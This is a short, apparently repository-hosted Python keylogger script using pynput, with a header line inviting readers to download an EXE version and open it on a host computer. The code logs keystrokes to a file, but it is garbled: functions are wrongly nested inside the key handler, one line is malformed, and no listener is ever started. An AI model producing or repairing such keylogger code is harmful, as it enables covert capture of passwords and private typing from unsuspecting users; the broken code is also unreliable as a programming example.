 # Random Keylogger
# I converted this into an EXE so all you gotta do is download this and open it on your host computer







from turtle import onrelease
import pynput
from pynput.keyboard import Key, Listener

count = 0
keys = []

def on_press(key):
    global keys, count
    keys.append(key)
    count += 1
    print("{0} pressed" .format (key))

    if count >= 1000:
        count = 0
        write_file(keys)
        keys = {}


    def write_file(keys):
        with open("log.txt", "a") as f:
            for key in keys:
                k = str(key .replace)()
                if k.find("space") >0:
                    f.write('\n')
                elif k.find("key") == -1:
                    f.write(k) 
          
        

    def on_release(key) : 
        if key == Key.esc:
            return False
 
